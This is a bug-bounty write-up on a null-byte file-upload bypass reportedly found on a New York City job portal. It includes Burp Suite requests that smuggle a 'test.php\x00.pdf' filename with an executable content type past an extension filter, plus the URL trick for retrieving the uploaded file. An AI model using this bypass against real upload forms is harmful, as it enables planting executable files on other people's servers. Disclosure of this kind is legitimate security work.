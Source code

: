 ```yaml
---
layout: post
title: "Null-Byte File Upload Bypass: PoC on a NYC Portal"
date: 2025-08-29
categories: [bug-bounty]
image: https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dIWSWrtC08kIaoVTLITp5w.jpeg
permalink: /blog/NYC-DOWN-FUV
locked: false
---
```


While searching for jobs on a New York City job portal, I decided to create an account and explore the platform’s features. One of the first things I did was update my profile and upload my resume, just like any typical job seeker would. The profile page looked something like this:

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*LfMseQB6u9eC7ER5irMVAA.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

As I interacted with the site, I started to notice some interesting behaviors in the file upload functionality...

As I interacted with the site, I started to notice some interesting behaviors in the file upload functionality. The platform only allowed certain file types specifically PDF and TXT files. Any attempt to upload other or potentially malicious files was blocked.

When uploading a file, you would see a request similar to this:

<div class="code-block-container">
  <span class="code-lang-tag">burp suite request</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-javascript">
POST /upload HTTP/1.1
Host: localhost:5000
Content-Length: 49871
Cache-Control: max-age=0
Origin: http://localhost:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvqrfq0aFgpBXXzTT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:5000/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.aLHqhg.2zjRjDid41OHk7Nrgl1dXJZ8n70
Connection: keep-alive

------WebKitFormBoundaryvqrfq0aFgpBXXzTT
Content-Disposition: form-data; name="file"; filename="rest.pdf"
Content-Type: application/pdf

%PDF-1.3
%Äåòåë§ó ÐÄÆ
4 0 obj
<< /Length 5 0 R /Filter /FlateDecode >>
stream.....
</code></pre>
</div>

However, if we modify the upload request and change the filename to include a null byte (for example, `test.php\x00.pdf`) and set the `Content-Type` to something like `application/vnd.microsoft.portable-executable`, the server processes the file as `test.php\x00.pdf`. This could potentially allow us to bypass the file type restrictions.

Here’s how the modified request would look:

<div class="code-block-container">
  <span class="code-lang-tag">burp suite request (null byte bypass)</span>
  <button class="copy-btn" onclick="copyCode(this)" title="Copy code">
    <svg width="18" height="18" fill="none" stroke="currentColor" stroke-width="2" viewBox="0 0 24 24">
      <rect x="9" y="9" width="13" height="13" rx="2" ry="2" stroke="currentColor" fill="none"/>
      <path d="M5 15H4a2 2 0 0 1-2-2V4a2 2 0 0 1 2-2h9a2 2 0 0 1 2 2v1" />
    </svg>
  </button>
  <pre><code class="learning-javascript">
POST /upload HTTP/1.1
Host: localhost:5000
Content-Length: 49871
Cache-Control: max-age=0
Origin: http://localhost:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryvqrfq0aFgpBXXzTT
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://localhost:5000/upload
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: session=eyJsb2dnZWRfaW4iOnRydWV9.aLHqhg.2zjRjDid41OHk7Nrgl1dXJZ8n70
Connection: keep-alive

------WebKitFormBoundaryvqrfq0aFgpBXXzTT
Content-Disposition: form-data; name="file"; filename="test.php\x00.pdf"
Content-Type: application/vnd.microsoft.portable-executable

<--MZ binary content-->
------WebKitFormBoundaryvqrfq0aFgpBXXzTT--
</code></pre>
</div>

This trick can sometimes bypass weak file validation mechanisms, potentially allowing the upload of executable or malicious files.

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*4sE7RSkRelC-XNJeqqNgBg.png"
  alt="Website initial view"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

Now, when you try to access the uploaded file, the application returns a "Page Not Found" error, and the URL looks like this:

```
http://localhost:5000/file/filename.php/x00
```

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*yPJ1-vbmpXkK2wkQYowPtA.png"
  alt="Null byte file download demo"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

However, if you manually remove the `/x00` from the URL so it becomes:

```
http://localhost:5000/file/filename.php
```

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*FUQ2f6XnHFX7cxqhFNDRFg.png"
  alt="Null byte file download demo"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>

you are able to download the uploaded PHP file directly.

Below is a demonstration of replicating this vulnerability on a test environment (not the NYC job portal), but the screenshots above are from the real site:

## Video Demonstration

<div style="position: relative; padding-bottom: 56.25%; height: 0; overflow: hidden;">
  <iframe 
    src="https://www.youtube.com/embed/p3waRC1e7jo" 
    frameborder="0" 
    allowfullscreen 
    style="position: absolute; top:0; left: 0; width: 100%; height: 100%;">
  </iframe>
</div>

**Thank you for reading!** If you found this post helpful or interesting, stay tuned for more cybersecurity stories and insights. See you

<img 
  src="https://miro.medium.com/v2/resize:fit:2000/format:webp/1*TEgAP1FqQNaH7JkeQaumFw.jpeg"
  alt="No Detection"
  class="zoomable-img"
  style="border: 2px solid #ccc; border-radius: 10px; cursor: zoom-in;"
/>